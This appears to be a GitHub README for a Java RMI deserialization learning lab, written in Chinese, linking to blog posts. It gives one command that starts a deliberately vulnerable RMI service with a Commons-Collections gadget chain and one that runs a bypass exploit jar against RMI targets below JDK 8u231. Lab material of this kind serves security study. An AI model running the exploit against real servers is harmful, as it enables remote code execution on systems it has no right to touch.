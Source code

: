 # RMIDeserialize
RMI反序列化学习环境，细节请参考博客[RMI-反序列化-深入-上](https://lalajun.github.io/2020/06/22/RMI%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E6%B7%B1%E5%85%A5-%E4%B8%8A/)、[RMI-反序列化-深入-下](https://lalajun.github.io/2020/06/22/RMI%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E6%B7%B1%E5%85%A5-%E4%B8%8B/)

`java -cp RMIDeserialize.jar com.lala.ServerAndRegister` ：起一个包含CC链可以被攻击的RMI服务

`java -jar RMI-Bypass290.jar <攻击目标IP> <攻击目标端口> <本地JRMP服务IP> <本地JRMP服务端口>`：攻击目标8u231版本以下的RMI服务。

其他功能可以从源码运行。

![总结图.png](http://ww1.sinaimg.cn/large/006iKNp3ly1gg378mdwp2j31ut18015j.jpg)
